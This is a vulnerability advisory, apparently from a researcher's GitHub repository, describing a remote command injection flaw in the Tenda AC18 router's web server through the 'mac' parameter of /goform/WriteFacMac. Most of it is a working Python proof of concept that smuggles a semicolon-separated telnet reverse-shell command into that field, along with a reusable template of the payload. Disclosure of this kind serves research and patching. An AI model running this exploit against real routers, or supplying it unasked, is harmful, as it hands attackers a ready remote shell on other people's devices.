 Vendor:Tenda
product:AC18
version:V15.03.05.19 and  V15.03.05.05
type:Arbitrary Remote Command Execution
author:WuShaoZhen
institution:Ns1A@Xiangtan University

## Vulnerability description:
I found an Arbitrary Command Execution vulnerability in the router's web server-- **/bin/httpd** of squashfs filesystem. While processing the **mac** parameters for a post request(when an attacker accesses ip/goform/WriteFacMac), the value is directly passed to doSystem, which causes a RCE. The details are shown below: 

![rce1.1.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.1.png)


![rce1.2.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.2.png)


Close the previous command with a semicolon and then cause an Arbitrary Remote Command Execution
## Poc:
```python2
import requests
from pwn import*

ip = "192.168.211.128" #You Tenda AC18 Router IP
url = "http://" + ip + "/goform/WriteFacMac"
print(url)


#payload = ";cmd"
#payload = ";telnet ip port1 | /bin/sh | telnet ip port2"
payload = ";telnet 127.0.0.1:1111 | /bin/sh | telnet 127.0.0.1:2222"


cookie = {"Cookie":"password=12345"}
data = {"mac": payload}
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print("HackAttackSuccess!")
```
Use the above POC to play shell through telnet You can get a very stable shell
![rce1.3.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.3.png)
![rce1.4.png](https://github.com/wshidamowang/Router/blob/main/Tenda/AC18/AC18_images/rce1.3.png)
